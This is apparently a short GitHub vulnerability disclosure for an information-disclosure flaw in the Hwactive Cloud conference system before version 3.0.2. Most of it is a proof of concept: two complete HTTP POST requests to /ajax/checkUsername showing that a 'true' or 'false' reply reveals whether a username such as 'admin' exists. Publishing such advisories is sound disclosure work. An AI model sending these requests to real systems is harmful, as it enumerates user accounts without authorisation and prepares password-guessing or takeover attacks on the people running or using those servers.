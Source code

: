 # Hwactive Cloud conference system Information disclosure vulnerability
Hwactive Cloud conference system has an Information disclosure vulnerability.Unauthorized users can obtain system user information through the vulnerability interface.

## Sphere of influence
Hwactive Cloud conference system<3.0.2

## POC

```
POST /ajax/checkUsername HTTP/1.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.0 Safari/605.1.15
Accept-Encoding: gzip, deflate, br
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cache-Control: no-cache
Pragma: no-cache
Host: 127.0.0.1
Content-Length: 27
Connection: close

userName=admin
```
If the user exist, the return value is "true"
![image](https://github.com/user-attachments/assets/2744eae4-2d1f-4a17-985c-92d1da28d10c)

```
POST /ajax/checkUsername HTTP/1.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.0 Safari/605.1.15
Accept-Encoding: gzip, deflate, br
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cache-Control: no-cache
Pragma: no-cache
Host: 127.0.0.1
Content-Length: 19
Connection: close

userName=testiojand
```
If the user does not exist, the return value is "false"
![image](https://github.com/user-attachments/assets/9d02c452-3b3d-416f-bb4a-c0eefce260f6)
